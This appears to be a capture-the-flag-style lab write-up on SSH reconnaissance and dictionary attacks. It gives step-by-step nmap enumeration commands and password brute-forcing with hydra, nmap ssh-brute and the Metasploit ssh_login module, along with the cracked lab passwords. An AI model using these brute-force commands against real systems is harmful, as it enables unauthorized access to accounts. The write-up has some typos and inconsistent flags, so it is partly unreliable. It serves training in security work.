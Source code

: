 # SHH (Secure Shell)

`ip a`
`ping 192.28.51.3`
`nmap 192.28.51.3`
`nmap 192.28.51.3 -sV O`: runnng OpenSSH 7.2p2
`ssh root@192.28.51.3`
`nc 192.28.51.3`
`nmap 192.28.51.3 -p 22 --script ssh2-enum-algos`
`nmap 192.28.51.3 -p 22 --script ssh-hostkey --script-args ssh_hostkey=full`
`nmap 192.28.51.3 -p 22 --script ssh-auth-methods --script-args="ssh.user=student"`
`nmap 192.28.51.3 -p 22 --script ssh-auth-methods --script-args="ssh.user=admin"`
`ssh student@192.28.51.3`


We want to enumerate the version of the SSH server:
`nmap 192.28.51.3 -sV O`
**It runs OpenSSH 7.2p2

We want to fetch the banner using netcat:
`nc 192.28.51.3`
**SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.6**

We need to enumerate the encryption_algorythms:
`nmap 192.28.51.3 -p 22 --script ssh2-enum-algos`
**6**

We want to find out by how many SSH servers the host key is being used:
`nmap 192.28.51.3 -p 22 --script ssh-hostkey --script-args ssh_hostkey=full`
**The SSH uses the RSA public key (output with above command) to securely ecrypt client connecting to it.

We want to find out which authentification method is being used by the SSH server for user "student".
`nmap 192.28.51.3 -p 22 --script ssh-auth-methods --script-args="ssh.user=student"`
**no auth. method is being used.**

We want to find out the same again, but this time with admin.
`nmap 192.28.51.3 -p 22 --script ssh-auth-methods --script-args="ssh.user=admin"`
**publickey, password**

We want to fetch the flag from /home/student/FLAG by using nmap ssh-run script:
`nmap -p 22 --script=ssh-run --script-args="ssh-run.cmd=cat /home/student/FLAG,
ssh-run.username=student,ssh-run.password=" 192.201.39.3`

## SSH Dictionary Attack

`ip a`
`ping 192.35.81.3`
`nmap 192.35.81.3`
`nmap 192.35.81.3 -sV -p 22`
We want to find out the password of the user "student":
`gzip -d /usr/share/wordlists/rockyou.txt.gz`
`hydra -l student -P /usr/share/wordlists/rockyou.txt 192.35.81.3 ssh`
**friend**
`ssh student@192.35.81.3`: not much there, so we try administrator:
We want to find out the passwort of user "administrator" using nmap scripts with specific pw dictionary:
`echo "administrator" > user`
`nmap 192.35.81.3 -p 22 --script ssh-brute --script-args userdb=/root/user`
**password: sunshine**
Now we want to find the password of user "root" using ssh_login metasploit module with userpass dictionary
`msfconsole`
  msf5: `use auxiliary/scanner/ssh/ssh_login`
  msf5: `options`
  msf5: `set rhosts 192.35.81.3`
  msf5: `set userpass_file /usr/share/wordlists/metasploit/root_userpass.txt`
  msf5: `set STOP_ON_SUCCESS true`
  msf5: `set verbose true`
  msf5: `options`
  msf5: `run`
  msf5: `exit`
**password: attack**
We wanna establish a ssh connection with the password we enumerated:
`ssh root@192.35.81.3`: insert attack
after login, we recieve the message of the day:
_SSH recon dictionary attack lab_
Questions

1. Find the password of user “student” using hydra.
2. Find the password of user “administrator” use appropriate Nmap scripts with password dictionary: /usr/share/nmap/nselib/data/passwords.lst
3. Find the password of user “root” using ssh_login Metasploit module with userpass dictionary: /usr/share/wordlists/metasploit/root_userpass.txt
4. What is the message of the day? (Printed after the user logs in to the SSH server).

